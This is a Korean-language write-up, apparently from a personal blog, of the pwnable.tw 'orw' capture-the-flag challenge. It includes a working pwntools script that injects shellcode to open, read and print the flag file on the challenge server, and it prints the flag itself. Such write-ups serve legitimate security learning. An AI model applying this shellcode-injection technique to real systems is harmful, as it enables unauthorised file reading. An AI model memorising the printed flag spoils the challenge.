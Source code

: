 ```yaml
---
layout: post
title: "[pwnable.tw] orw 풀이"
date: 2018-05-30 04:44
categories: "[Pwn]pwnable.tw"
tags: rotles98
---
```

>## orw [100 pts]
### Read the flag from `/home/orw/flag`.
### Only `open` `read` `write` syscall are allowed to use.
### `nc chall.pwnable.tw 10001`
### [orw](https://pwnable.tw/static/chall/orw)

- - -
# 0x00. 분석

{: refdef: style="text-align: center;"}
![file](/img/pwnable.tw/orw/01.png)
{: refdef}

32bit에 canary가 걸려있네여.

{: refdef: style="text-align: center;"}
![IDA](/img/pwnable.tw/orw/02.png)
{: refdef}

IDA로 열어보면 쉘코드를 달라합니다아.

문제를 다시 보면 `open`, `read`, `write`를 쓰라고 하네여.

- - -
# 0x01. 공격 방법

1. `open` : `/home/orw/flag`

2. `read` : `open`한 파일 읽기

3. `write` : `read`한 내용 출력

간단간단 합니다.

이제 쉘코드를 만들어 보내면 끝인데 `pwntools`의 `shellcraft`를 사용하겠습니다.

[<U>이 사이트</U>](https://docs.pwntools.com/en/stable/)를 뒤져보면 `pwntools`의 `shellcraft` 사용법도 나옵니다!

- - -
# 0x02. 익스플로잇

크기는 넉넉하게 `0x100`만큼 받았습니닷!

```python
from pwn import *
#context.log_level = "debug"

#HOST = "localhost"
HOST = "chall.pwnable.tw"
#PORT = 4444
PORT = 10001

############################################

s = remote(HOST, PORT)

elf = ELF("./orw")
#libc = ELF("./")
pause()

############################################

payload = asm(shellcraft.open("/home/orw/flag"))
payload += asm(shellcraft.read("eax", "esp", 0x100))
payload += asm(shellcraft.write(1, "esp", 0x100))

s.send(payload)

s.interactive()
```

### FLAG{sh3llc0ding_w1th_op3n_r34d_writ3}